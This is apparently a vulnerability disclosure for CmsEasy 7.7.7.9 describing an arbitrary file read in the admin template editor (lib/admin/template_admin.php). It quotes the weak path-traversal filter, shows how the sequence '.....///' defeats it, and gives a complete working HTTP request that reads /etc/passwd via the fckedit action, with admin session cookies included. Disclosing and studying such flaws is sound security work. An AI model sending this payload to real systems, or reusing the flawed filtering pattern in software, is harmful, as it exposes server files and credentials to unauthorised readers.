


# CmsEasy-7.7.7.9-File Inclusion2
## Introduce

CmsEasy-7.7.7.9 has a file inclusion vulnerability in the background.

## Analyze

The vulnerability point is located in the file of "lib/admin/template_admin.php".

There is a file_get_contents function in the fckedit_action method of the file, which may cause arbitrary file reading vulnerabilities if filtering is inappropriate.



The file_get_contents function filters the content passed in by the id parameter. The specific filtering is as follows

```php
$tpl = str_replace('#', '', $id);
$tpl = str_replace('../', '', $tpl);
$tpl = str_replace('./', '', $tpl);

$tpid = $tpl;
$tpl = str_replace('_d_', '/', $tpl);
$tpl = str_replace('_html', '.html', $tpl);
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```php
.....///.....///
=>
../../
```

## Exploit

```http
POST /index.php?case=template&act=fckedit&admin_dir=admin&site=default HTTP/1.1
Host: 127.0.0.1:81
Content-Length: 126
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: http://127.0.0.1:81
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:81/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9vkgmq80l9brv18sbtt38rvur0; lockingfalseadmin=1; loginfalse=0; login_username=admin; login_password=25-vW7vv8AcMTyO1g0s5fGK%253DS4B2bFBvfF%253DP4zP3i0uNq2ab18391e6e61e99aff8e10d05e4ad02
Connection: close

&id=.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///.....///etc/passwd
```


